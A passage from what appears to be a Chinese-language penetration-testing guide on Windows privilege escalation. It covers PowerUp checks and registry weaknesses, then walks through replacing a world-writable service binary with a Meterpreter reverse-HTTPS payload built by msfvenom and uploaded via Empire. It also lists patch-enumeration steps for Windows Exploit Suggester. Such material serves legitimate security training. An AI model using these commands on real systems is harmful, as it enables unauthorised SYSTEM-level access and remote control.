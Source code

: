 查找服务中存在的不安全的注册表权限:
- 识别允许更新服务映像路径位置的弱权限账户

检查 AlwaysInstallElevated 注册表项是否已启用：
- 检查 AlwaysInstallElevated 注册表项，该注册表项指示.msi 文件应以较高的权限 ( NT AUTHORITY\SYSTEM ) 安装
- https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/always_install_elevated.rb

请注意，我们并不需要手动完成这些操作，因为别人已经创建了一些好的 metasploit 和 PowerShell 模块，特别是针对 Windows 的模块。在下面的示例中，我们将查看 [PowerUp PowerShell 脚本](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/PowerUp.ps1)。在这种情况下，脚本与 Empire 一起在所有常见的错误配置区域运行查找，比如允许普通用户获得本地管理或系统帐户。在下面的示例中，我们在受害者系统上运行这个程序，发现它有一些本地系统的未引用服务路径。现在，我们可能无法重新启动服务，但我们应该能够利用这个漏洞，等待服务重启。

- Empire PowerUp 模块:
  - usermodule privesc/powerup/allchecks

![](../images/chapter_4/4-13.png)

最突出的是:

- ServiceName： WavesSysSvc
- Path： C:\Program Files\Waves\MaxxAudio\WavesSysSvc64.exe
- ModifiableFile： C:\Program Files\Waves\MaxxAudio\WavesSysSvc64.exe
- ModifiableFilePermissions： {WriteOwner, Delete, WriteAttributes, Synchronize…}
- **ModifiableFileIdentityReference： Everyone**
- StartName： LocalSystem

看起来任何人都可以编写 WavesSysSyc 服务。这意味着我们可以将 WaveSysSvc64.exe 文件替换为我们自己的恶意二进制文件:

- 创建一个 Meterpreter 二进制文件（后续的文章将讨论如何绕过杀毒软件）
  - msfvenom -p windows/meterpreter/reverse_https LHOST=[ip] LPORT=8080 -f exe > shell.exe
- 使用 Empire 上传二进制文件并替换原始二进制文件
  - upload ./shell.exe C:\users\test\shell.exe
  - shell copy C:\users\test\Desktop\shell.exe “C:\ProgramFiles\Waves\MaxxAudio\WavesSysSvc64.exe”
  - 重新启动服务或等待其重启

一旦服务重新启动，你你应该会收到一个升级为 `system` 权限的 Meterpreter shell 。使用 `PowerUp` powershell 脚本，你将发现许多不同的服务都会有权限提升的可能性。如果你想深入了解 Windows 权限提升的底层问题，请查看 FuzzSecurity 的文章：http://www.fuzzysecurity.com/tutorials/16.html 。

对于未打补丁的 Windows 系统，我们确实有一些权限升级攻击，比如：（ https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1 ）和 ( https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/Sample-Exploits/MS16-135 ），但是我们如何快速识别目标系统上安装了哪些补丁呢，我们可以在受害者系统上使用系统默认自带的命令来查看安装了哪些系统补丁包。Windows 自带默认命令`systeminfo` 将提取任何给定的 Windows 主机的所有补丁安装历史记录。我们可以拿回这个输出结果，将其复制到我们的 Kali 系统并运行 Windows Exploit Suggester 以查找已知的漏洞然后针对性的进行漏洞利用从而提升权限。


回到你攻击的 Windows 10系统：
- systeminfo
- systeminfo > windows.txt
- 将 windows.txt 复制到你的 Kali 虚拟机的  /opt/Windows-Exploit-Suggester 下
- python ./windows-exploit-suggester.py -i ./windows.txt -d 2018-03-21-mssb.xls

![](../images/chapter_4/4-14.png)

这个工具已经有一段时间没有被维护了，但是你还是可以轻松地从中寻找到你正需要的能权限提升的漏洞。
